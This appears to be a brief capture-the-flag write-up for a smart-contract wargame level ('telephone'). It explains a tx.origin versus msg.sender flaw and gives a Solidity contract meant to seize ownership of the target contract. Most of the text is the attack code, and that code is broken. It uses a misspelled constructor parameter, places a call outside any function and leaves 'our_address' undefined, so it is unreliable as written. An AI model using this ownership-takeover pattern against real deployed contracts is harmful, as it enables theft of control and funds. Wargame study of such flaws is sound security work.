 level_3_telephone
this is phishing tx.origin attack
tx.origin remains same for whole the transaction call but msg.sender varies.
This level can be completed using another contract calling the original contract function.
this makes the 
tx.origin != msg.sender
so we can change the owner of the contract

interface ITelephone{
	function changeOwner(address _owner) external;
}
contract Attack{
	ITelephone  public telephone;
	constructor(address _teladdrss){
		telephone = ITelephone(_teladdress);
	}
	telephone.changeOwner(our_address);
}
//note: use metamask for tx.origin to exist in remix
